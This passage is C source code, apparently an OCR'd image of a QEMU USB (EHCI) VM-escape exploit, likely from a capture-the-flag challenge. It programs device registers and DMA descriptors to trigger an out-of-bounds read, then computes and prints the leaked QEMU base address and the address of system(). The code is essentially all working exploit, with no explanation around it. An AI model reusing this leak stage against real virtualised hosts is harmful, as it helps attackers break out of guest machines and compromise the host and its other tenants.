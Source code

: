```c
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

void do_copy_read(){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);

qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);
qtd->token=1<<7 | 1<<8 | 0x1f00<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x1000);
qtd->bufptr[1]=virt2phys(dmabuf+0x2000);
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

int main()
{
    init();
    iopl(3);
    outw(0,0xc0c0);
    outw(0,0xc0e0);
    outw(0,0xc010);
    outw(0,0xc0a0);
    sleep(3);
    init_state();
    sleep(2);
    set_length(0x2000,0x80);
    sleep(2);
    do_copy_read();
    sleep(2);
    struct USBDevice* usb_device_tmp=dmabuf+0x2004;
    struct USBDevice usb_device;
    memcpy(&usb_device,usb_device_tmp,sizeof(USBDevice));
    uint64_t dev_addr=usb_device.ep_ctl.dev;
    uint64_t *tmp=dmabuf+0x24f4;
    long long base=*tmp;
    if(base == 0){
        printf("INIT DOWN,DO IT AGAIN");
        return 0;
}
    base-=0xee5480-0x2668c0;
    uint64_t system=base+0x2d9610;
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
    printf("LEAK BASE ADDRESS:%llx!\n",base);
    printf("LEAK SYSTEM ADDRESS:%llx!\n",system);
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
}
```

